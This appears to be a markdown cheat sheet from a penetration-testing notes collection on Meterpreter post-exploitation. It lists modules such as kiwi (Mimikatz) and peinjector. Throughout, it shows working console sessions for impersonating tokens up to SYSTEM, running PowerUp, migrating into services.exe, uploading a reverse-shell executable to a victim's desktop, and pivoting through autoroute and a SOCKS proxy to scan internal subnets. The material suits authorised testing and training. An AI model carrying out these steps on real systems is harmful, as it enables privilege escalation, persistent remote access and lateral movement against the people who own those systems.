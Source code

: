 ```yaml
---
title: Meterpreter
description: Meterpreter C2 introduction.
---
```


# Meterpreter

## Modules

### List of modules

Meterpreter modules : [source code](https://github.com/rapid7/metasploit-framework/tree/master/lib/rex/post/meterpreter/ui/console/command_dispatcher).

- espia : Capture audio, video, screenshots from the remote system.
- [incognito](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/) : Allow you to impersonate user tokens.
- lanattacks
- [powershell](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/powershell-extension.html) : Enable powershell (interactive shell, single command, ...).
- [python](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/python-extension.html) : Interact with a python interpreter
- stdapi
- winpmem
- extapi
- kiwi : Mimikatz extension.
- peinjector : Inject a given shellcode into an executable file.
- priv : Privilege escalation extension.
- sniffer : Packet sniffer.
- unhook

### Incognito

```
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
[...]
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Powershell

```
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell

PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
[...]
```

## Migrate on process

More information about the [migrate](https://www.hackingarticles.in/metasploit-for-pentester-migrate/) command.

Even though you have a higher privileged token you may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). Ensure that you migrate to a process with correct permissions.

```
meterpreter > ps | grep services
Filtering on 'services'

Process List
============

 PID  PPID  Name          Arch  Session  User                 Path
 ---  ----  ----          ----  -------  ----                 ----
 668  580   services.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\services.exe

meterpreter > migrate 668
[*] Migrating from 996 to 668...
[*] Migration completed successfully.
```

## Search for files

```
meterpreter > search -f shell.exe
Found 1 result...
=================

Path                              Size (bytes)  Modified (UTC)
----                              ------------  --------------
c:\Users\bruce\Desktop\shell.exe  73802         2021-12-11 12:20:17 +0100
```

## Upload / Download

```
meterpreter > download shell.exe
[*] Downloading: shell.exe -> /home/.../alfred/shell.exe
[*] Downloaded 72.07 KiB of 72.07 KiB (100.0%): shell.exe -> /home/.../alfred/shell.exe
[*] download   : shell.exe -> /home/.../alfred/shell.exe

meterpreter > upload shell.exe 'c:\Users\bruce\Desktop\reverse.exe'
[*] uploading  : /home/.../alfred/shell.exe -> c:\Users\bruce\Desktop\reverse.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/.../alfred/shell.exe -> c:\Users\bruce\Desktop\reverse.exe
[*] uploaded   : /home/.../alfred/shell.exe -> c:\Users\bruce\Desktop\reverse.exe
```

## Autoroute & SOCKS proxy

Start SOCKS proxy server (default : `127.0.0.1:8080` with `SOCKS5`).

```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
```

Then, use autoroute.

```
msf6 auxiliary(server/socks_proxy) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > run autoroute -s 172.16.1.0/24

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.1.0/255.255.255.0...
[+] Added route to 172.16.1.0/255.255.255.0 via 10.10.110.100
[*] Use the -p option to list all active routes
```

Finally, use proxy options :

```
curl --proxy socks5://127.0.0.1:1080 http://172.16.1.100:4444/
```

or `proxychains` :

Add the line `socks5 127.0.0.1 1080` to the end of `/etc/proxychains.conf`.

```
proxychains curl http://172.16.1.100:4444/
```

## ARP Scanner

```
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(windows/smb/ms17_010_psexec) >  use post/windows/gather/arp_scanner
msf6 post(windows/gather/arp_scanner) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/arp_scanner) > set RHOSTS 172.16.2.0/24
RHOSTS => 172.16.2.0/24
msf6 post(windows/gather/arp_scanner) > run

[...]
```

## Port Scanner

```
msf6 > route add 172.16.2.0 255.255.255.0 1
[*] Route added

msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 172.16.2.0-255
RHOSTS => 172.16.2.0-255
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 22,80,88,445
PORTS => 22,80,88,445
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 172.16.2.5:           - 172.16.2.5:88 - TCP OPEN
[+] 172.16.2.5:           - 172.16.2.5:445 - TCP OPEN
```